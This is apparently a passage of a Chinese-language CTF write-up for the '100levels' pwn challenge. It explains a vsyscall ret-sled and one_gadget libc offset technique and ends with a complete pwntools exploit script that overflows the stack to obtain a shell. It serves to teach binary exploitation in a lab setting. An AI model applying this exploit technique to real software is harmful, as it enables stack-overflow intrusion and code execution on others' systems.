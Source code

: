 ![18.png](https://i.loli.net/2019/08/06/FrYO518XIdTNzpV.png)

我们想要返回到那个可控libc地址中，有一个神器的地址 

```python
0xffffffffff600000
```

![19.png](https://i.loli.net/2019/08/06/gAvQnYDhcsOjSVK.png)

这里会调用0x60的syscall，注意这里的参数设置

```c
name:sys_gettimeofday	rdi:struct timeval *tv	rsi:struct timezone *tz
```

调试一下发现rdi不可控，会指向输入的字符串，rsi会是strtol的返回值，这里如果是非0，可能会syscall报错，所以直接在字符串中写字母，即可让rsi为0

接着ret，若是栈上全部都是这个gadget，那么可以控制rip在栈上滑行，滑倒可控libc地址上执行

![1a.png](https://i.loli.net/2019/08/06/Z9bBkNcfQUyoLIC.png)

要注意这里的game是递归的，所以我们得到最后一局再去覆盖栈返回地址，之前的99据可以直接算出来

完整EXP：

```python
from pwn import *

p = process("./100levels")
libc = ELF("/libc64.so.6")

p.recv()
p.sendline('2')
p.recv()
p.sendline('1')
p.recv()
p.sendline('-1')
p.recv()
p.sendline(str(0x4526a - libc.symbols['system']))

for i in range(99):
    p.recvuntil('Question: ')
    a = int(p.recvuntil(" * ", drop=True))
    b = int(p.recvuntil(" =", drop=True))
    p.sendline(str(a * b))

p.recvuntil('Question: ')
a = int(p.recvuntil(" * ", drop=True))
b = int(p.recvuntil(" =", drop=True))
p.recvuntil(":")
payload = 'a' * 0x38 + p64(0xffffffffff600000) * 3
p.send(payload)
p.interactive()
```
